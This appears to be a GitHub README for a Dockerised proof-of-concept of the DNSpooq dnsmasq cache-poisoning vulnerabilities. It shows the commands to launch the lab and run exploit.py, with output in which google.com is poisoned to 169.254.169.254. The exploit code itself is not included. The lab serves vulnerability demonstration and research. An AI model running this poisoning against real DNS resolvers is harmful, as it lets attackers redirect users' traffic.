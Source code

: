 # dnspooq
DNSpooq PoC - dnsmasq cache poisoning (CVE-2020-25686, CVE-2020-25684, CVE-2020-25685)

For educational purposes only

## Requirements
- Docker compose
- Docker

## Exploit

### Launch containers

```
$ docker-compose up -d
```

### Run exploit.py

```
$ docker-compose exec attacker bash
bash-5.0# python exploit.py
Querying non-cached names...
Generating spoofed packets...
Poisoned: b'google.com.' => 169.254.169.254
sent 3032017 responses in 50.309 seconds
```

### View output from forwarder container

```
$ docker-compose logs -f forwarder
...
forwarder_1  | dnsmasq[1]: query[A] example.com from 10.10.0.3
forwarder_1  | dnsmasq[1]: forwarded example.com to 10.10.0.4
forwarder_1  | dnsmasq[1]: cached example.com is <CNAME>
forwarder_1  | dnsmasq[1]: cached google.com is 169.254.169.254
```

### View output from cache container

```
$ docker-compose logs -f cache
Attaching to dnspooq_cache_1
cache_1      | Sniffing...
cache_1      | Source port: 46816, TXID: 16476, Query: b'example.com.'
cache_1      | Source port: 16718, TXID: 54280, Query: b'example.com.'
...
cache_1      | Source port: 46816, TXID: 56240, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 24160, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 18189, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 40361, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 13100, Query: b'example.com.'
cache_1      | Source port: 46816, TXID: 47303, Query: b'example.com.'
```

## Reference
- https://www.jsof-tech.com/disclosures/dnspooq/
- https://www.jsof-tech.com/wp-content/uploads/2021/01/DNSpooq-Technical-WP.pdf

## Author
Teppei Fukuda
